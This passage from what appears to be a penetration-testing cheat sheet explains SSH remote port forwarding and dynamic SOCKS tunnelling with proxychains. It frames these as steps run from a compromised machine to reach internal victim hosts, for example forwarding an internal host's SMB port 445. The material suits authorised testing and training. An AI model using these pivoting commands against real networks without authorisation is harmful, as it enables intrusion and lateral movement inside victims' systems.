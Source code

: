 After the above command is run, the remote `httpd` service can be accessed by your local port `9999`.

## SSH Remote Port Forwarding

Brings a port from a machine in the internal victim's network to your attacking machine:

```
ssh -N -R [your_ssh_server_interface]:[your_port]:[victim_ip]:[victim_port_you_want_to_forward] [attacker_username]@[your_ssh_server_ip]
```

The `your_ssh_server_interface:` can be omitted. 

The `-N` can be omitted, as it doesn't enable ssh command execution, it's there to be useful when forwarding ports.

> **Note**: *The above command is run at a compromised machine inside the target network.*

**example**: `ssh -N -R 192.168.67.1:4445:192.168.67.128:445 user@192.168.67.1`

After the above command is run, port `445` of host `192.168.67.128` (which is different from the compromised machine) is forwarded at the ssh server of IP `192.168.67.1`. 

The `victim_ip` can be set to `127.0.0.1`. This means that a local (in relation to where the command is run) port will be forwarded to the target ssh server

For this to work, you need the following configuration at your SSH server (`/etc/ssh/sshd_config`):

`GatewayPorts yes`

## Proxychains 

When you want to forward many target ports in a dynamic manner, using `ssh` you can create such a dynamic tunnel with the `-D` switch. Then, using this tunnel and `proxychains` you can forward all scans/traffic through `ssh` for every requested port in a dynamic manner.

### Configure proxychains.conf (attacker's machine)

At the attacker's machine, make sure `proxychains` is installed. The default configuration settings are ok (`/etc/proxychains.conf`):

```
#proxy_dns 
socks4 127.0.0.1 9050
```

You can use `socks5`, `http` or `https` protocol. `ICMP` is not supported.

### Dynamic port forwarding via ssh 

We create a dynamic application-level port forwarding from the attacking machine to the victim machine, by running the following at the attacker's machine:

```bash
ssh -fND [proxychains.conf_port] [victim_username]@[victim_host]
```
